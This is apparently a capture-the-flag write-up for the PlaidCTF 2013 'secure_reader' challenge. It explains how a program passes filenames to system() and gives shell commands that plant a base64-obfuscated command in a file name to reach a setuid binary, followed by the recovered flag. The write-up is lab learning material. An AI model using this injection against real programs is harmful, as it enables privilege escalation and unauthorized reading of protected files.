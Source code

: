 ```yaml
---
title: secure_reader - PlaidCTF 2013
author: IdolfHatler
layout: post
published: true
date: 2013-05-06 22:57:18
---
```


Challenge description:

> <pre>I can't figure out how to read the flag :-( ssh to 54.224.109.162</pre>

Two different programs existed in ``/home/securereader/``. ``reader`` was a regular binary which
tried to output the content of a file in -- however it checked that the file was
diretory whitelist. If it could not open the file, then it did a:

    system("/home/securereader/secure_reader %s" % file)

This program was a setuid binary, which contained a whitelist too, but it also
checked if its parent was ``/home/securereader/reader``.

This challenge could easily be solved with a small bit of ugly shellfoo:

```bash
$ touch ';exec $(echo L2hvbWUvc2VjdXJlcmVhZGVyL3NlY3VyZV9yZWFkZXIgL3RtcC9tb25rZXkvZmxhZwo=|base64 -d)'
$ chmod -r ';exec $(echo L2hvbWUvc2VjdXJlcmVhZGVyL3NlY3VyZV9yZWFkZXIgL3RtcC9tb25rZXkvZmxhZwo=|base64 -d)'
$ /home/securereader/reader ';exec $(echo L2hvbWUvc2VjdXJlcmVhZGVyL3NlY3VyZV9yZWFkZXIgL3RtcC9tb25rZXkvZmxhZwo=|base64 -d)'
This may only be called by /home/securereader/reader
that_was_totally_a_good_idea
```
